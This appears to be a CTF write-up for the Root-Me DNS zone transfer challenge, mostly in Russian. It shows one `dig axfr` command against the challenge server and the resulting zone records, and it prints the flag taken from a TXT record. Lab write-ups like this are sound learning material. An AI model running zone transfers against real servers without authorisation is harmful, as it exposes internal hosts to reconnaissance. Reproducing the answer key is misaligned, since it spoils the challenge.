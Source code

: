 
![main](./png/main_task/main_dns_zone.png)
## Задание
A not really dutiful administrator has set up a DNS service for the "ch11.challenge01.root-me.org" domain...
And give host, protocol and port
## Решение
Воспользуемся утилитой `dig` - утилита, предоставляющая пользователю интерфейс командной строки для обращения к системе DNS. 

Более подробно про dns zone transfert - [link](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/)

`dig axfr ch11.challenge01.root-me.org @challenge01.root-me.org -p 54011`

<details>

```
; <<>> DiG 9.11.16-2-Debian <<>> axfr ch11.challenge01.root-me.org @challenge01.root-me.org -p 54011
;; global options: +cmd
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
;; Query time: 72 msec
;; SERVER: 212.129.38.224#54011(212.129.38.224)
;; WHEN: Sun Apr 05 09:55:02 EDT 2020
;; XFR size: 6 records (messages 1, bytes 246)
```

</details>


![flag](./png/dns_trans_zon.png)

***Flag*** - `CBkFRwfNMMtRjHY`